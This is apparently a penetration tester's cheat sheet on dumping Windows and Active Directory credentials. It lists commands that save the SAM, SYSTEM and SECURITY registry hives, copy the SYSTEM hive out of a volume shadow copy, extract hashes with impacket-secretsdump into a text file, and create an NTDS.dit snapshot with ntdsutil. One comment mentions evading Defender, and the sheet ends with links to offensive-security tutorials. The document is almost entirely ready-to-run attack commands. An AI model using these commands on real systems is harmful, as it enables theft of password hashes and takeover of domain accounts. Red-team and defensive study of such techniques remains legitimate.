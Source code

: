 
Via CLI from registry - Might trip defender

```
-   reg save HKLM\sam sam
-   reg save HKLM\system system
-   reg save hklm\security security

```

```
icacls \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\system32\config\system
```

Check for vss
```
vssadmin list shadows
```

from vss
```
powershell.exe -c "[Console]::OpenStandardInput().CopyTo([Console]::OpenStandardOutput())" < "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\System32\Config\SYSTEM" > System.copy

```

Dump secrets with impacket to text file

```
impacket-secretsdump -ntds ntds.dit -system system -security security LOCAL > hashes.txt
```

ntdsutil-dumping domain user hashes as DA

```
ntdsutil
activate instance ntds
ifm
create full C:\ntdsutil
quit
quit
```


followup links:

https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/
https://www.hackingarticles.in/credential-dumping-domain-cache-credential/
https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials
https://tobtu.com/lmntlm.php